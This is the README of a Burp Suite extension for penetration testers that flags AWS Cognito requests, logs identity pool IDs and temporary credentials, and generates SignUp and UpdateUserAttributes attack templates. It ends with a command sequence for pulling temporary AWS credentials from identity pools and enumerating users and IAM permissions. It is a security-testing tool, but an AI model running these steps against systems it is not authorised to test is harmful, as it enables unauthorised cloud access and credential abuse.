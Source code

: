 # Burp AWS Cognito (Using the Montoya API)

__Author: Nick Coblentz__, https://www.virtuesecurity.com

This extension helps identify key information from requests to AWS Cognito and provides templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 
  - Log `AWSCognitoIdentityService.GetCredentialsForIdentity` requests containing temporary credentials

## Examples

### Burp Proxy Comments Reflected the `X-Amz-Target`

![](screenshots/2023-07-12-14-54-55.png)

### Identity Pool Found

![](screenshots/2023-07-12-14-43-08.png)

### Identity Pool URL Found

![](screenshots/2023-07-12-14-43-53.png)

### Sign Up Request

![](screenshots/2023-07-12-14-44-33.png)

### Generated Requests to Send to Repeater

#### Sign Up

![](screenshots/2023-07-12-14-47-02.png)

#### UpdateUserAttributes

![](screenshots/2023-07-12-14-47-43.png)

## Download the Plugin

See the packages section on the right hand side of this Github Repo. Look for `burpmontoyacognito-x.y.z-fatjar.jar`.

## How to build this plugin

### Setup a GitHub Access Token

#### Why

Even though the Utility Package referenced by the build is public, Github still requires you to have an access token

Here's the relevant content in my `build.gradle.kts` file
```kotlin
repositories {
    mavenCentral()
    maven {
        url = uri("https://maven.pkg.github.com/ncoblentz/BurpMontoyaUtilities")
        credentials {
            username = project.findProperty("gpr.user") as String? ?: System.getenv("GHUSERNAME")
            password = project.findProperty("gpr.key") as String? ?: System.getenv("GHTOKEN")
        }
    }
}
```

```kotlin
dependencies {
    implementation("com.nickcoblentz.montoya.libraries:burpmontoyautilities:+")
```
#### What to do

1. Log into your personal github account and create an access token that can "Read Packages"
2. `export GHUSERNAME="yourusernamehere"`
3. `export GHTOKEN="youraccestokenhere"`

### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-1.0-SNAPSHOT-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws sts get-caller-identity #check what additional roles this token has
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```
